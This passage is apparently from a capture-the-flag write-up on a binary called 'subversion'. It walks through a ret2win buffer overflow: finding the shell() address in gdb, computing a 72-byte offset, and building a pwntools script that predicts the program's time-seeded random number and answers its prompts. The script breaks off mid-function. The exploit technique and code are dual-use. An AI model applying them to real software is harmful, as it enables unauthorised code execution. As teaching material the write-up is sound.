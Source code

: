We will attempt a **ret2win** by calling the "ghost" function `shell()`. To do this, we need its memory address, which we retrieve using `gdb`.  

```bash
$ gdb -q subversion
```

![alt text](/assets/subversion/gdb-shell.png)  

We obtain the `rdi` register address just before calling `system` and take note of it.  

```bash
0x00000000004017b4 <+8>:     lea    0xba0(%rip),%rdi        # 0x40235b
```

Now, we need to determine the **offset** we need to fill in to trigger the buffer overflow and insert the address of the `rdi` register that we are interested in.  

As seen in the source code, the user’s input is stored in the variable `char buffer[64];`. Typically, each `char` is stored in a single byte, making it **64 bytes**, but since we are in a **64-bit system**, we add an extra **8 bytes**.  

We add another function to our exploit to try calling the `shell()` function and obtain a **bash shell**.

```python
from pwn import *
import ctypes
from datetime import datetime, timezone

binario = './subversion'
p = process(binario)

# Cargar la biblioteca estándar de C
libc = ctypes.CDLL('libc.so.6')

# Funciones para usar rand y srand de C
def c_srand(seed):
    libc.srand(seed)

def c_rand():
    return libc.rand()

# Generar el número aleatorio con la semilla ajustada
current_time = int(datetime.now(timezone.utc).timestamp())
seed = current_time ^ 69
c_srand(seed)
random_number = c_rand() % 10000000

def responde():
    # Lista de respuestas
    respuestas = [
        b"1789",
        b"No violencia",
        b"Caida del Muro",
        b"Carta Magna",
        b"Lucha contra el apartheid"
    ]
    # Recorremos la lista de respuestas
    for resp in respuestas:
        # Esperamos hasta recibir "Respuesta:"
        p.recvuntil(b"Respuesta:")
        # Enviamos la respuesta
        p.sendline(resp)

# Enviamos número aleatorio
def aleatorio():
    p.recvuntil(b"Respuesta:")
```